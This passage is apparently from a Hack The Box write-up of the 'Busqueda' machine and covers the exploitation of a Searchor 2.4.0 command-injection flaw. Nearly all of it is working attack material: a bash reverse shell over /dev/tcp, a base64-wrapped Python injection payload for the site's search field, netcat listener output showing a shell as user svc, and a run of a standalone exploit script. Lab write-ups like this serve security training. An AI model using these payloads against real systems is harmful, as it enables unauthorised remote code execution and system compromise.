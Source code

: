 ##### Method-1:

The reverse shell code we can use is:

```bash
bash -c 'bash -i >& /dev/tcp/{RHOST}/{RPORT} 0>&1'
```

While trying to pass this in the payload, it is better to base64 encode it.

```bash
0hmsec@kali:-$ echo -ne "bash -c 'bash -i >& /dev/tcp/KALI_IP/PORT 0>&1'" | base64
```

The final payload.

```python
' + __import__('os').popen('echo {BASE64_ENCODED_CODE}|base64 -d|bash -i').read() + '
```

Before passing the payload, we need to have our "nc" listener running. Then we directly pass the payload in the "What do you want to search for: " field on the site - http://searcher.htb/.

![RCE](/assets/img/posts/htb-busqueda/ss7.png){: .center }
_RCE_

Thus, we get the reverse shell as the user `svc` on netcat.

```bash
0hmsec@kali:-$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.208] 55120
bash: cannot set terminal process group (1595): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ 
```

##### Method-2:

I have written a python program to get the reverse shell, which you can find it [here](https://github.com/0hmsec/Searchor-2.4.0-Arbitrary-CMD-Injection-Python/tree/main).

```bash
0hmsec@kali:-$ python3 CVE-2023-43364.py -u http://searcher.htb/ -rh 10.10.10.11 -rp 8888
Connection Established Successfully.
Trying to open a reverse shell on 10.10.10.11 at 8888...
```

Thus, we will get the reverse shell. You can use whichever method is comfortable for you.
